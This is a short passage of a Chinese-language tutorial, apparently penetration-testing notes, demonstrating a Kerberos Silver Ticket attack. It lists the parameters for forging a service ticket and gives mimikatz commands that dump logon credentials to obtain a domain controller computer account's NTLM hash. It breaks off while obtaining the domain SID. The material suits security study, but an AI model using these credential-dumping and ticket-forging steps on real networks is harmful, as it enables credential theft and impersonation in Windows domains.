 ## 3.3 白银票据攻击演示

为了伪造 TGS, 我们需要获取如下信息:

```
/domain: 域名
/sid: 域的sid
/service: 目标机器上的kerberos服务, 此处以cifs为例
/rc4: 计算机账户的ntlm hash, 域控主机的计算机账户
/user: 要伪造的用户名, 可任意
```

- 获取到服务提供者的 NTLM hash

```
privilege::debug
sekurlsa::logonpasswords
```

![](vx_images/5583612165916.png)

> 注: 此处要找到计算机账户，也就是 Username : WIN-NK5H2367K35$的 NTLM hash，如果是其他账户，那么会失败, 也就是需要共享服务账号。

- 获取到域的 sid:

![](vx_images/2217418188356.png)
